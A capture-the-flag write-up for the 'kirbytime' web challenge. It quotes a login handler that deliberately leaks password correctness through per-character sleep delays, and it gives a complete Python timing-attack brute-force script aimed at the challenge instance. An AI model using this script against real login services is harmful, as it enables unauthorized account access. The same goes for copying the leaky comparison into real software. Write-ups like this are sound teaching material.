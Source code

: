 ```yaml
---
title: kirbytime
date: 2023-12-10T13:37:49+02:00
author: zacian
tags:
  - Web
draft: false
---
```


## Description

Welcome to Kirby's Website.

Author : `Stephanie`

## Solution

This challenge need us to start us a Docker Web Instance and also provide us with a zip attachment

Attachment : [kirbytime.zip](https://drive.google.com/uc?export=download&id=186KLr52yoTD1scFyzeZKSMa6cUr9iV6m&name=kirbytime.zip)

The site simply asks us for a password, after from that we couldn't find anything useful.

Now after downloading and unzipping the attachment, we can get the following logic from main.py

```py
        real = 'REDACTED'
        if len(password) != 7:
            return render_template('login.html', message="you need 7 chars")
        for i in range(len(password)):
            if password[i] != real[i]:
                message = "incorrect"
                return render_template('login.html', message=message)
            else:
                time.sleep(1)
        if password == real:
            message = "yayy! hi kirby"
```

So, for every valid password charecters it sleep for 1 sec. 

For this we can simply create a bruteforce script.

```py
import requests
import string
from time import sleep

chars    = string.ascii_letters + string.digits + string.punctuation
url      = "http://34.31.154.223:52249"
password = ['x'] * 7

try:
	for i in range(7):
		for c in chars:
			password[i]   = c
			send_password = ''.join(password)
			print("[+] Password :", send_password, end="\r")
			data = { "password" : send_password }
			try:
				response = requests.post(url, data=data)
				if response.elapsed.total_seconds() > i + 1: break
			except requests.exceptions.ConnectionError as e:
				if password[1] != 'x' :
					print("\n[!] Instance Closed")
				print("\n[!] Can not connect to the server")
				exit(0)
	print("[+] Password Found :", ''.join(password), end="\n")
except KeyboardInterrupt: print("\n[!] Bye")
```

This will find the password ... 

Note : If the instance stop before the bruteforce completes, do make some necessary changes to the range and replace the password with the one that you have